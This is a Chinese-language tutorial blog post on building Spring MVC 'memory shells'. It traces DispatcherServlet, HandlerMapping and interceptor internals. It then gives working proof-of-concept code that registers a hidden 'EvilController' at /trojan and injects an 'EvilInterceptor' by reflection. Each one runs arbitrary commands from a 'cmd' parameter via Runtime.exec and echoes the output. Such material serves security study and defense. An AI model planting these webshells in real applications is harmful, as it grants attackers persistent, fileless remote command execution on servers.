# Java Spring 内存马入门

1. 文章参考：

    > 主体内容：
    > https://su18.org/post/memory-shell/#%E6%8E%A7%E5%88%B6%E5%99%A8-%E6%8B%A6%E6%88%AA%E5%99%A8-%E7%AE%A1%E9%81%93
    > 部分 Spring 相关知识：
    > https://www.itbaima.cn/document/eve8gq72qmdb46sg?segment=1
    > https://landgrey.me/blog/12/

## 1. 前言

1. 上一篇文章学习了 Java Servlet 内存马，其总体三个方向的思路如下：

    1. Servlet ：在用户请求路径与处理类映射之处，添加一个指定路径的指定处理类；
    2. Filter：责任链模式，对请求进行预处理；
    3. Listener：在责任链之外的，对特殊事件进行监听处理。

    目前主流的框架、组件、中间件，只要采用了类似的设计思想和设计模式的位置，就可以尝试内存马的相关实现。例如 Python SSTI 下无回显时，就可以用 Flask 的请求前钩子来回显（类似 Filter）（既然能代码执行回显，那么就可以打内存马）。

## 2. Spring Controller 内存马

1. 回顾一下 Servlet 内存马的两个条件：

    1. 初始化 Servlet ，用 `Wrapper` 包装类修饰它，将 `Wrapper` 塞入到 Context 中。
    2. 添加 Wrapper 和 URL 的映射。

    Controller 和 Servlet 类似，也需要大概需要这两个条件，一个就是 Controller 自己的实例化与**注册**，还有一个就是建立 RequestMapping 的映射。

2. 在进行下一步的学习之前，这里提及一下 Controller 相关的知识点：

    > 有了 SpringMVC 之后，我们不必再像之前那样一个请求地址创建一个 Servlet 了，它使用 `DispatcherServlet` 替代 Tomcat 从而为我们提供的默认的静态资源 Servlet，也就是说，现在所有的请求（除了 jsp，因为 Tomcat 还提供了一个 jsp 的 Servlet）都会经过`DispatcherServlet`进行处理。
    >
    > 那么`DispatcherServlet`会帮助我们做什么呢？
    >
    > 
    >
    > 根据图片我们可以了解，我们的请求到达 Tomcat 服务器之后，会交给当前的 Web 应用程序进行处理，而 SpringMVC 使用 `DispatcherServlet` 来处理所有的请求，也就是说它被作为一个统一的访问点，所有的请求全部由它来进行调度。
    >
    > **当一个请求经过 `DispatcherServlet` 之后，会先走 `HandlerMapping`，它会将请求映射为`HandlerExecutionChain`，依次经过 `HandlerInterceptor` 有点类似于之前我们所学的过滤器，不过在 SpringMVC 中我们使用的是拦截器，然后再交给 `HandlerAdapter`，根据请求的路径选择合适的控制器进行处理，控制器处理完成之后，会返回一个 `ModelAndView` 对象，包括数据模型和视图，通俗的讲就是页面中数据和页面本身（只包含视图名称即可）。**
    >
    > 返回 `ModelAndView` 之后，会交给 `ViewResolver`（视图解析器）进行处理，视图解析器会对整个视图页面进行解析，SpringMVC 自带了一些视图解析器，但是只适用于 JSP 页面，我们也可以像之前一样使用 Thymeleaf 作为视图解析器，这样我们就可以根据给定的视图名称，直接读取HTML 编写的页面，解析为一个真正的 View。
    >
    > 解析完成后，就需要将页面中的数据全部渲染到 View 中，最后返回给 `DispatcherServlet` 一个包含所有数据的成形页面，再响应给浏览器，完成整个过程。
    >
    > 因此，实际上整个过程我们只需要编写对应请求路径的的 Controller 以及配置好我们需要的ViewResolver 即可，之后还可以继续补充添加拦截器，而其他的流程已经由 SpringMVC 帮助我们完成了。

3. 上面的过程中提到了 `HandlerMapping`，在接下来的学习中，也会涉及到 Handler 的相关知识，那么什么是 Handler？
    最简单的方式就是找到相关的 handler（因为没有叫做 `Handler` 的类），对其 debug，就可以看到组成。先根据请求流程，在 `DispatcherServlet#doDispatch` 处打个断点：
    
    可以看到，在 SpringMVC 下，这个 Handler/HanderMethod 可以理解为“一个 Controller + Controller 相关信息 + 请求的相关信息”。

4. 下文还会涉及到 Context 和 BeanFactory 的相关内容。先来了解一下他们。
    `BeanFactory` 接口是 Spring IoC 的基础，提供了配置框架和基本功能。然后来看一下 `BeanFactory` 和一些 Context 的关系：
    
    可以看出，最常见的 `ApplicationContext` 也是 `BeanFactory` 的一种。官方的说法是：

    > [`ApplicationContext`](https://docs.spring.io/spring-framework/docs/6.0.8-SNAPSHOT/javadoc-api/org/springframework/context/ApplicationContext.html) 是 `BeanFactory` 的一个子接口。它增加了：
    >
    > - 更容易与 Spring 的 AOP 功能集成
    > - Message resource 处理（用于国际化）
    > - 事件发布
    > - 应用层的特定上下文，如 `WebApplicationContext`，用于 web 应用
    >
    > 简而言之，`BeanFactory` 提供了配置框架和基本功能，而 `ApplicationContext` 则增加了更多的企业特定功能。

    Servlet 是 JavaWeb 的底层且其有生命周期，因此 `DispatcherServlet` 在 Spring 中也由 IoC 容器管理（在大部分场景下，Context 虽然称作上下文，但是也可以称作容器），因此可以定位到 `WebApplicationContext`，也就是 `ApplicationContext` 的子接口，来看一下这个类的介绍：

    > Interface to provide configuration for a web application. This is read-only while the application is running, but may be reloaded if the implementation supports this.
    > `WebApplicationContext` 接口为一个 webapp 提供配置。webapp 在运行时，这个接口是仅可读，不过如果其实现类支持重置，那么它也可以被重置。
    > This interface adds a getServletContext() method to the generic ApplicationContext interface, and defines a well-known application attribute name that the root context must be bound to in the bootstrap process.
    > 该接口在通用的 `ApplicationContext` 上额外提供 `getServletContext()` 方法，并且定义了广为人知的应用属性名。根 Context 必须在初始引导过程中绑定到该属性名。
    > Like generic application contexts, web application contexts are hierarchical. There is a single root context per application, while each servlet in the application (including a dispatcher servlet in the MVC framework) has its own child context.
    > **和大多数通用的 application context 一样，web application contexts 也是分层的。每个应用都只有一个根（root） context。然而每个 servlet（包括 SpringMVC 的一个 dispatcher servlet）有其自己的子（child）context。**
    > In addition to standard application context lifecycle capabilities, WebApplicationContext implementations need to detect ServletContextAware beans and invoke the setServletContext method accordingly.
    > Since:
    > January 19, 2001
    > See Also:
    > ServletContextAware.setServletContext
    > Author:
    > Rod Johnson, Juergen Hoeller

    到这可以知道，每一个 app 有一个 root context，然后每一个 servlet 对应一个 child context。在 Web app 中有 root context —— `WebApplicationContext`。
    知道上述的知识背景后，获取到一个 Servlet Context 或者 Root Context 的过程就好理解了，参考：

    > https://landgrey.me/blog/12/
    
    其给出了四个方法来获取上下文环境，其实最终是要获得 `DispatcherServlet` 所对应的 Context，给出代码：
    ```java
    WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            if (context == null) {
                return "inject fail!";
            }
    ```
    

### 2.1 初步探究

1. 想要了解 Controller 动态注册和映射的过程，则需要跟着请求的流程；因此首先需要在 `DispatcherServlet#doDispatch` 处打个断点。来看一下该函数的一些信息：
    ```java
    /**
      * Process the actual dispatching to the handler.
      * <p>The handler will be obtained by applying the servlet's HandlerMappings in order.
      * The HandlerAdapter will be obtained by querying the servlet's installed HandlerAdapters
      * to find the first that supports the handler class.
      * <p>All HTTP methods are handled by this method. It's up to HandlerAdapters or handlers
      * themselves to decide which methods are acceptable.
      * @param request current HTTP request
      * @param response current HTTP response
      * @throws Exception in case of any kind of processing failure
    */
    protected void doDispatch(HttpServletRequest request, HttpServletResponse response) throws Exception {
        HttpServletRequest processedRequest = request;
        HandlerExecutionChain mappedHandler = null;
        boolean multipartRequestParsed = false;
    
        WebAsyncManager asyncManager = WebAsyncUtils.getAsyncManager(request);
    
        try {
            ModelAndView mv = null;
            Exception dispatchException = null;
    
            try {
                processedRequest = checkMultipart(request);
                multipartRequestParsed = (processedRequest != request);
    
                // Determine handler for the current request.
                // 这里比较关键，getHandler() 寻找针对当前的 request 的 handler
                mappedHandler = getHandler(processedRequest);
                if (mappedHandler == null) {
                    noHandlerFound(processedRequest, response);
                    return;
                }
    
                // Determine handler adapter for the current request.
                HandlerAdapter ha = getHandlerAdapter(mappedHandler.getHandler());
    
                // Process last-modified header, if supported by the handler.
                String method = request.getMethod();
                boolean isGet = "GET".equals(method);
                if (isGet || "HEAD".equals(method)) {
                    long lastModified = ha.getLastModified(request, mappedHandler.getHandler());
                    if (new ServletWebRequest(request, response).checkNotModified(lastModified) && isGet) {
                        return;
                    }
                }
    
                if (!mappedHandler.applyPreHandle(processedRequest, response)) {
                    return;
                }
    
                // Actually invoke the handler.
                // 这里调用具体的 handler 进行处理
                mv = ha.handle(processedRequest, response, mappedHandler.getHandler());
    
                // 下文的内容不太重要，省略
                ...
    }
    ```

2. 由上文可以知道，Handler 和 Controller 是强相关的，那么 `getHandler()` 就是需要关注的重点，可能从中了解到如何根据一个请求来注册 Controller 并将其与 URL 进行绑定。

### 2.2 路由的初步定位与映射

1. 接着上文，跟进 `mappedHandler = getHandler(processedRequest);`，来到 `DispatcherServlet#getHandler()`：
    
    这里还有一个 `mapping.getHander(request)`，再次跟进（留意变量 `mapping` 的值是 `RequestMappingHandlerMapping`)，来到了 `AbstractHandlerMapping#getHandler()`。
    
    到此，先暂停继续跟进的脚步，现在有三个类需要搞明白：`RequestMappingHandlerMapping`、`AbstractHandlerMapping` 以及这个方法返回的特殊类 `HandlerExecutionChain`。

    1. 先来讲 `HandlerExecutionChain`，我们需要的是一个 Handler，那么这个 `HandlerExecutionChain` 是什么？来详细看这个类：
        
        根据官方注释，它是 Handler + Handler Interceptors。其实上文也提到过，SpringMVC 将请求映射为`HandlerExecutionChain`。其获取方式通过 `HandlerMapping.getHandler()`。

    2. `AbstractHandlerMapping`，它就是 `HandlerMapping` 的一个抽象实现类，那么先来看其本质 -- `HandlerMapping`：
        
        这段注释向我们解释了：

        1. `HandlerMapping` 是一个关于 Requests 和 Handler 的 Mapping（映射）。
        2. 一个 Handler 必须被 `HandlerExecutionChain` 包裹（修饰）。

        知道了这些后，`AbstractHandlerMapping` 的 Abstract 也就能理解了，其是 `HandlerMapping` 的一部分实现，也为具体实现类提供一层基础。

    3. `RequestMappingHandlerMapping`，也就是 `AbstractHandlerMapping` 的最小具体实现类了。想要了解 `RequestMappingHandlerMapping`，还需要看它的上一层 `RequestMappingInfoHandlerMapping`（同时附上继承关系）：
        
        这个就是对 Mapping 映射的内容做了更加详细的约定：一个 Request 和一个 Handler Method 之间，同时这个映射是被 `RequestMappingInfo` 定义的。根据这段文字，可以看出，`RequestMappingInfoHandlerMapping` 是两个部分，即 `RequestMappingInfo` 和 `HandlerMapping`。**`RequestMappingInfo` 记录了 Mapping 的相关信息，对一次 http 请求中的相关信息进行封装。**

    4. 现在再来看 `RequestMappingHandlerMapping`：
        
        这下知道了一件事：**这个类可以根据 `@RequestMapping` 和 `@Controller` 注解，创建 `RequestMappingInfo` 实例**。同时它也是一个 Request 和一个 Handler Method 的 Mapping。

    5. 至此，可以对这些类进行一个图像总结：
        
        上文中还提到一个 HandlerMethod，这个类也是一个修饰类，主要包裹一个 `Method` 和 `Bean`。主要是为访问 `Method` 提供一些便利操作。

2. 对上述提及的类有了初步了解后，接着从 `AbstractHandlerMapping#getHandler()` 的 `getHandlerInternal()` 继续跟进：
    
    再接着：
    
    可以看到，这里获取了请求的路径，然后根据这个路径来寻找合适的 HandlerMethod（这个类总之是为了获取合适的 Handler 做铺垫)。
    再跟进关键方法 `lookupHandlerMethod(lookupPath, request)`，这里就比较关键了：

    ```java
    /**
      * Look up the best-matching handler method for the current request.
      * If multiple matches are found, the best match is selected.
      * @param lookupPath mapping lookup path within the current servlet mapping
      * @param request the current request
      * @return the best-matching handler method, or {@code null} if no match
      * @see #handleMatch(Object, String, HttpServletRequest)
      * @see #handleNoMatch(Set, String, HttpServletRequest)
    */
    @Nullable
    protected HandlerMethod lookupHandlerMethod(String lookupPath, HttpServletRequest request) throws Exception {
        List<Match> matches = new ArrayList<>();
        // 这里根据路径名获取到最合适的 Match
        List<T> directPathMatches = this.mappingRegistry.getMappingsByDirectPath(lookupPath);
        if (directPathMatches != null) {
            addMatchingMappings(directPathMatches, matches, request);
        }
        if (matches.isEmpty()) {
            addMatchingMappings(this.mappingRegistry.getRegistrations().keySet(), matches, request);
        }
        if (!matches.isEmpty()) {
            Match bestMatch = matches.get(0);
            if (matches.size() > 1) {
                Comparator<Match> comparator = new MatchComparator(getMappingComparator(request));
                matches.sort(comparator);
                bestMatch = matches.get(0);
                if (logger.isTraceEnabled()) {
                    logger.trace(matches.size() + " matching mappings: " + matches);
                }
                if (CorsUtils.isPreFlightRequest(request)) {
                    return PREFLIGHT_AMBIGUOUS_MATCH;
                }
                Match secondBestMatch = matches.get(1);
                if (comparator.compare(bestMatch, secondBestMatch) == 0) {
                    Method m1 = bestMatch.handlerMethod.getMethod();
                    Method m2 = secondBestMatch.handlerMethod.getMethod();
                    String uri = request.getRequestURI();
                    throw new IllegalStateException(
                        "Ambiguous handler methods mapped for '" + uri + "': {" + m1 + ", " + m2 + "}");
                }
            }
            request.setAttribute(BEST_MATCHING_HANDLER_ATTRIBUTE, bestMatch.handlerMethod);
            handleMatch(bestMatch.mapping, lookupPath, request);
            // 这里直接返回最合适的 handlerMethod
            return bestMatch.handlerMethod;
        }
        else {
            return handleNoMatch(this.mappingRegistry.getRegistrations().keySet(), lookupPath, request);
        }
    }
    ```

    大体逻辑不是很难，为了寻找到最合适的匹配，底层还创建了一个内部 `Match` 类来辅助匹配。不过注意一开始寻找最佳匹配的类：`mappingRegistry`，这个类中存放了所有待匹配的内容，来看一下这个类的组成：
    
    可以看到，这是一个管理所有 HandlerMapping 的注册中心。其中路由的映射关系本身的最小单元为 `RequestMappingInfo`，由叫做 `registry` 的 `HashMap` 管理。
    同时根据官方对这个类的说明，其对外提供注册方法 `register()`。

3. 到此，我们初步找到了**映射路由**的地方，即 `mappingRegistry` 中的 `RequestMappingInfo`，同时其对外提供的 `registry()` 可以**注册 Controller**。那么现在的问题有两个：

    1. 这个 `RequestMappingInfo` 如何创建才能合法有效？
    2. 如何从一个类中获取到 `mappingRegistry` 以调用其相关的注册方法，即等价于如何获取到当前上下文中的 `AbstractHandlerMethodMapping`。

### 2.3 `RequestMappingInfo` 的创建 -- 以完成路由映射

1. 上文其实有提到过，`RequestMappingHandlerMapping` 是可以创建 `RequestMappingInfo` 的，因此浏览一下 `RequestMappingHandlerMapping`，从中寻找线索：
    
    因为是 `protected` 类型，向上寻找调用，一路上找（其实调用处很少，基本线性)，最终可以定位到其父类：`AbstractHandlerMethodMapping#afterPropertiesSet()`：
    
    再网上的话，就会发现很多调用的地方，因此在这里打个断点，观察一下调用栈的情况：
    
    根据这些调用函数名，结合触发断点的时机来看，可以推断出这个方法是在 Bean 创建时调用。那么其调用过程也就是 `RequestMappingInfo` 实例创建的过程。

2. 从 `AbstractHandlerMethodMapping#afterPropertiesSet()` 开始，跟进：
    
    定位到一般的 Controller，然后跟进：
    
    方法的注释表明，该方法将获取 bean 对应的类型，如果其类型满足 `isHandler()` 的要求，就会调用 `detectHandlerMethods()`。先来看这个 `isHandler()` 的逻辑（调试中注意当前的 this，`isHandler()` 的具体调用者是子类 `RequestMappingHandlerMapping`）：
    
    可以看到，它判断传入的 Bean 是否是 Controller 或者 RequestMapping（总之和路由相关)，显然这正是我们想要的。如果满足条件，就接着进行路由映射了。
    接着跟进路由映射的逻辑：
    
    对其代码进行分析：

    ```java
    /**
      * Look for handler methods in the specified handler bean.
      * @param handler either a bean name or an actual handler instance
      * @see #getMappingForMethod
    */
    protected void detectHandlerMethods(Object handler) {
        // 先通过反射获取当前 Bean 的 Class 对象
        Class<?> handlerType = (handler instanceof String ?
                                obtainApplicationContext().getType((String) handler) : handler.getClass());
    
        if (handlerType != null) {
            Class<?> userType = ClassUtils.getUserClass(handlerType);
            // 先根据 bean 的类型获取对应的 Method，然后将该 method 作为参数传入箭头函数（Lambda）
            Map<Method, T> methods = MethodIntrospector.selectMethods(userType,
                                                                      (MethodIntrospector.MetadataLookup<T>) method -> {
                                                                          try {
                                                                              // 这里就是实际创建点，根据传入的 method 创建 RequestMappingInfo 对象
                                                                              return getMappingForMethod(method, userType);
                                                                          }
                                                                          catch (Throwable ex) {
                                                                              throw new IllegalStateException("Invalid mapping on handler class [" +
                                                                                                              userType.getName() + "]: " + method, ex);
                                                                          }
                                                                      });
            if (logger.isTraceEnabled()) {
                logger.trace(formatMappings(userType, methods));
            }
            methods.forEach((method, mapping) -> {
                Method invocableMethod = AopUtils.selectInvocableMethod(method, userType);
                // 上面是创建的过程，这里就是映射路由的过程
                registerHandlerMethod(handler, invocableMethod, mapping);
            });
        }
    }
    ```

3. 从上文就可以看出 `RequestMappingInfo` 的创建与注册点了，创建的部分可以跟进去，其实就是 `RequestMappingHandlerMapping#getMappingForMethod()`，里面很详细。
    
    
    然后就是注册路由，可以跟进去看一眼：
    
    跟上去：
    
    其实底层还是调用 `MappingRegistry#register()`。
    但是上述的两个方法都是 `protected` 类型，因此定位到底层后，还需要向上寻找 Spring 对外提供的方法。

### 2.4 `AbstractHandlerMethodMapping` 的获取 -- 以完成注册

1. 上文提到需要寻找 Spring 对外提供的注册方法，这个注册方法可以定位到 `AbstractHandlerMethodMapping` 或者是它实际的实现类 `RequestMappingHandlerMapping`。不过在探讨具体的对外注册方法之前，我们需要先探讨如何才能一个一般的上下文中获取到这两个类。

2. 目前所了解的文章都是从 Spring 中的 BeanFactory 中获取，也就是调用 `BeanFactory.getBean(RequestMappingHandlerMapping.class)`，那么就要反思：为什么想到从 BeanFactory 中获取？TODO 目前个人的想法是最初想到这个的人是对 Spring 了解透彻，通过经验判断出这个类是 Bean，由 Spring IOC 容器管理。

3. 所以最终的问题就是如何获取到特定的上下文 Context 呢？同时这个 BeanFactory 和 Context 的关系又是什么？
    思路具体参考：

    > https://landgrey.me/blog/12/

### 2.5 初步的 PoC 编写

1. 至此，Controller 的创建、注册和路由映射的过程基本结束。对每个部分做一个大概的思路总结：
    1. 恶意 Kick-Off 创建：假设现在存在一个反序列化漏洞，那么我首先需要有一个恶意 kickoff，当其被反序列化时，它要完成**恶意 Controller 实例创建、注册以及路由映射**三个部分。
    2. Controller 实例创建可以通过字节码反射创建，当然也可以在同一个包下直接创建。
    3. Controller 的注册通过注册中心 `MappingRegistry` 的 `register()`，然后其路由映射则是通过 `RequestMappingInfo` 来实现。`RequestMappingInfo` 的创建可以追溯到 `MappingRegistry#register()`。
2. 初步的 PoC 构造如下：
    ```java
    package com.endlessshw.springapi.controller;
    
    import com.endlessshw.springapi.MainConfiguration;
    import com.endlessshw.springapi.bean.User;
    import com.endlessshw.springapi.util.SerUtil;
    import org.springframework.context.ApplicationContext;
    import org.springframework.context.annotation.AnnotationConfigApplicationContext;
    import org.springframework.stereotype.Controller;
    import org.springframework.web.bind.annotation.GetMapping;
    import org.springframework.web.bind.annotation.RequestMethod;
    import org.springframework.web.bind.annotation.RequestParam;
    import org.springframework.web.bind.annotation.ResponseBody;
    import org.springframework.web.context.WebApplicationContext;
    import org.springframework.web.context.request.RequestContextHolder;
    import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
    import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
    
    import java.io.BufferedReader;
    import java.io.InputStream;
    import java.io.InputStreamReader;
    import java.lang.reflect.Method;
    import java.nio.charset.Charset;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 靶场
     * @date 2025/1/18 22:30
     */
    @Controller
    public class TargetController {
        @ResponseBody
        @GetMapping("/inject")
        public String inject(){
            // 1. 恶意 Controller 实例化
            EvilController evilController = new EvilController();
    
            // 2. 创建 RequestMappingInfo
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            if (context == null) {
                return "inject fail!";
            }
            RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
    
            RequestMappingInfo.Builder builder = RequestMappingInfo.paths("/trojan").methods(RequestMethod.GET);
            RequestMappingInfo requestMappingInfo = builder.options(new RequestMappingInfo.BuilderConfiguration()).build();
    
            // 3. 完成注册和路由映射
            Method cmdMethod = evilController.getClass().getMethods()[0];
            requestMappingHandlerMapping.registerMapping(requestMappingInfo, evilController, cmdMethod);
            return "inject done!";
        }
    
        /**
         * 恶意 Controller，没有注册路由
         */
        @Controller
        public class EvilController{
            @ResponseBody
            public String cmd(@RequestParam("cmd") String cmd) throws Exception {
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream, "GB2312"));
                String line;
                StringBuilder result = new StringBuilder();
                while ((line = bufferedReader.readLine()) != null) {
                    result.append(line).append("\n");
                }
                bufferedReader.close();
                inputStream.close();
                System.out.println(result.toString());
                return result.toString().replaceAll("\n", "<\\br>");
            }
        }
    }
    ```

### 2.6 其他注册 Controller 的方式

1. 注册的方式参考：

    > https://landgrey.me/blog/12/

    该师傅给出了 3 个官方提供的方法。其中第一个方法就是上文 PoC 所使用的，通过 `RequestMappingHandlerMapping#registerMapping()`。

2. 上文 [2.3](#2.3 `RequestMappingInfo` 的创建 -- 以完成路由映射) 的流程分析中，曾分析过 `AbstractHandlerMethodMapping#detectHandlerMethods()`，这个方法其实在映射路由的同时也完成了 Controller 的注册，因此也可以通过反射来调用该方法。

3. 当然师傅还给出了通过 `AbstractUrlHandlerMapping#registerHandler()` 来完成注册。

## 3. Spring Interceptor 内存马

1. 前面学过 JavaWeb 的 Filter 内存马，SpringMVC 中的 Interceptor 拦截器就类似 Servlet 规范中的 Filter，拦截的是处理器的执行。
    参考别人的文章，来学习一下 Interceptor 的一些细节：

    > https://blog.csdn.net/zzuhkp/article/details/121242297

    先来看看官方对其的介绍（重要的地方进行了翻译）：

    > Workflow interface that allows for customized handler execution chains. Applications can register any number of existing or custom interceptors for certain groups of handlers, to add common preprocessing behavior without needing to modify each handler implementation.
    >
    > A HandlerInterceptor gets called before the appropriate HandlerAdapter triggers the execution of the handler itself. This mechanism can be used for a large field of preprocessing aspects, e.g. for authorization checks, or common handler behavior like locale or theme changes. Its main purpose is to allow for factoring out repetitive handler code.
    >
    > In an asynchronous processing scenario, the handler may be executed in a separate thread while the main thread exits without rendering or invoking the postHandle and afterCompletion callbacks. When concurrent handler execution completes, the request is dispatched back in order to proceed with rendering the model and all methods of this contract are invoked again. For further options and details see org.springframework.web.servlet.AsyncHandlerInterceptor
    >
    > Typically an interceptor chain is defined per HandlerMapping bean, sharing its granularity. To be able to apply a certain interceptor chain to a group of handlers, one needs to map the desired handlers via one HandlerMapping bean. The interceptors themselves are defined as beans in the application context, referenced by the mapping bean definition via its "interceptors" property (in XML: a `<list>` of `<ref>`).
    >
    > **通常来说，每一个 HandlerMapping bean （其实这里就能呼应为什么 Controller 马中 HandlerMapping 的获取会联想到 `context.getBean`）都会定义一个 interceptor chain，两者共享颗粒度（有点抽象，对具体指的什么感到模糊）。为了能够将一条明确的 interceptor chain 应用到一些 handler 上，开发者需要通过一个 HandlerMapping 来对应想要的 handler。这些 Interceptor 本身在 application context 中也被定义为 bean。**在 xml 中被一些标签定义。
    >
    > HandlerInterceptor is basically similar to a Servlet Filter, but in contrast to the latter it just allows custom pre-processing with the option of prohibiting the execution of the handler itself, and custom post-processing. Filters are more powerful, for example they allow for exchanging the request and response objects that are handed down the chain. Note that a filter gets configured in web.xml, a HandlerInterceptor in the application context.
    >
    > **HandlerInterceptor 基本上和 Servlet Filter 很像，但是相比于后者，其仅允许自定义 pre-processing (其可以禁止 handler 执行），或者自定义 post-processing。但 Filters 的功能则更为强大，例如 Filters 允许交换 request 和 response 对象，这些对象在链中被传递下去。PS：一个 filter 在 web.xml 中配置，而 HandlerInterceptor 在 application context 中配置。**
    >
    > As a basic guideline, fine-grained handler-related preprocessing tasks are candidates for HandlerInterceptor implementations, especially factored-out common handler code and authorization checks. On the other hand, a Filter is well-suited for request content and view content handling, like multipart forms and GZIP compression. This typically shows when one needs to map the filter to certain content types (e.g. images), or to all requests.

2. Interceptor 三个方法具体的执行流程如下。

    > `preHandle`：处理器执行之前执行，如果返回 false 将跳过处理器、拦截器 `postHandle` 方法、视图渲染等，直接执行拦截器 `afterCompletion` 方法。
    > `postHandle`：处理器执行后，视图渲染前执行，如果处理器抛出异常，将跳过该方法直接执行拦截器 `afterCompletion` 方法。
    > `afterCompletion`：视图渲染后执行，不管处理器是否抛出异常，该方法都将执行。
    > 注意：自从前后端分离之后，SpringMVC 中的处理器方法执行后通常不会再返回视图，而是返回表示 json 或 xml 的对象，@Controller 方法返回值类型如果为 ResponseEntity 或标注了 @ResponseBody 注解，此时处理器方法一旦执行结束，Spring 将使用 `HandlerMethodReturnValueHandler` 对返回值进行处理，具体来说会将返回值转换为 json 或 xml，然后写入响应，后续也不会进行视图渲染，这时 `postHandle` 将没有机会修改响应体内容。
    >
    > 如果需要更改响应内容，可以定义一个实现 ResponseBodyAdvice 接口的类，然后将这个类直接定义到 RequestMappingHandlerAdapter 中的 requestResponseBodyAdvice 或通过 @ControllerAdvice 注解添加到 RequestMappingHandlerAdapter。

### 3.1 Interceptor 流程分析

1. 还是从 `DispatcherServlet#doDispatch` 出发，从中寻找相关的方法：
    
    跟进 `mappedHandler.applyPreHandle()`，查看它的调用逻辑：
    
    它从这个 `interceptorList` 中获取 `HandlerInterceptor`，因此写入逻辑就是在这里。
    然后该方法的主体是 `mappedHandler`，这个对象的来源可以查看一下：
    
    可以看到，这个对象是局部变量而非全局变量，不好通过反射写入，此时考虑寻找是否有官方写入的 API。其实上文的 Controller 内存马的研究中已经跟进了这个 `getHandler()`，深入跟进的话会来到：
    
    可以看到这里的 `getHandlerExecutionChain()` 就是 `HandlerExecutionChain` （即 `mappedHandler` )的来源。跟进该方法，至此可以看到添加 Interceptor 的完全逻辑：
    
    也就是说，每次请求的 `HandlerExecutionChain` 都是动态获取的，不过其来源本质上还是来自 `HandlerMapping` 的成员变量 `adaptedInterceptors`，那么现在的目标就是对其下手。

### 3.2 PoC

1. 本质就是通过反射修改 `HandlerMapping` 的成员变量 `adaptedInterceptors`，直接上 PoC：
    ```java
    /**
     * 模拟靶场，访问即会触发
     * 
     * @return
     * @throws Exception 
     */
    @ResponseBody
    @GetMapping("/interceptor")
    public String interceptor() throws Exception {
        // 1. 拿到 HandlerMapping
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        if (context == null) {
            return "inject fail!";
        }
        RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 2. 通过反射修改其内部变量 adaptedInterceptors
        // 这里注意，要使用父类 AbstractHandlerMapping 的 class
        Field adaptedInterceptorsField = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        adaptedInterceptorsField.setAccessible(true);
        List<HandlerInterceptor> handlerInterceptors = (List<HandlerInterceptor>) adaptedInterceptorsField.get(requestMappingHandlerMapping);
        handlerInterceptors.add(new EvilInterceptor());
        adaptedInterceptorsField.set(requestMappingHandlerMapping, handlerInterceptors);
    
        return "interceptor done!";
    }
    
    /**
     * 恶意的 Interceptor
     */
    public class EvilInterceptor implements HandlerInterceptor {
        @Override
        public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
            InputStream inputStream = Runtime.getRuntime().exec(request.getParameter("cmd").trim()).getInputStream();
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream, "GB2312"));
            String line;
            StringBuilder result = new StringBuilder();
            while ((line = bufferedReader.readLine()) != null) {
                result.append(line).append("\n");
            }
            bufferedReader.close();
            inputStream.close();
            System.out.println(result);
            response.setCharacterEncoding("GB2312");
            response.getWriter().write(result.toString().replaceAll("\n", "<\\br>"));
            response.getWriter().flush();
            response.getWriter().close();
            HandlerInterceptor.super.postHandle(request, response, handler, modelAndView);
        }
    }
    ```

2. 首次访问后注入 interceptor，随后访问 404 页面时回显：
    
    
